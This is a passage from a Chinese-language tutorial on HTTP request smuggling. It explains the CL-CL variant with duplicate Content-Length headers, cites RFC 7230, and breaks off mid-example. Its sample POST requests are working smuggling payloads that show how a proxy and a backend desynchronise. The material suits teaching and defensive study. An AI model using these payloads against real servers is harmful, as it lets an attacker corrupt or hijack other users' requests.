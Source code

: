 * 攻击种类

  * CL-CL

    * 在`RFC7230`的第`3.3.3`节中的第四条中，规定当服务器收到的请求中包含两个`Content-Length`，而且两者的值不同时，需要返回400错误。然而，服务端程序并不都严格遵守规范

    * 假设有一个用户发起了恶意请求

      ```http
      POST / HTTP/1.1
      Host: 127.0.0.1
      Connection: keep-alive
      Content-Length: 7
      Content-Length: 6
      
      2333\r\n
      M
      ```

    * 假设反向代理服务器收到请求，将请求存储到缓冲区，解析时解析第一个Content-Length，那么反向代理服务器会将以下内容转发给Web应用服务器

      ```http
      POST / HTTP/1.1
      Host: 127.0.0.1
      Connection: keep-alive
      Content-Length: 7
      Content-Length: 6
      
      2333\r\n
      M
      ```

    * 假设Web应用服务器收到反向代理服务器转发来的数据，将请求存储到缓冲区，解析时解析第二个Content-Length，那么Web应用服务器会根据Content-Length=6从缓冲区读取内容，因此将识别到以下内容并进行处理

      ```http
      POST / HTTP/1.1
      Host: 127.0.0.1
      Connection: keep-alive
      Content-Length: 7
      Content-Length: 6
      
      2333\r\n
      ```

    * 此时Web应用服务器缓冲区被处理过的内容被清空，缓冲区的有效内容为

      ```tex
      M
      ```

    * 此时如果有正常用户请求，则会被代理服务器正常转发

      ```http
      POST / HTTP/1.1
      Host: 127.0.0.1
      Connection: keep-alive
      Content-Length: 6
      
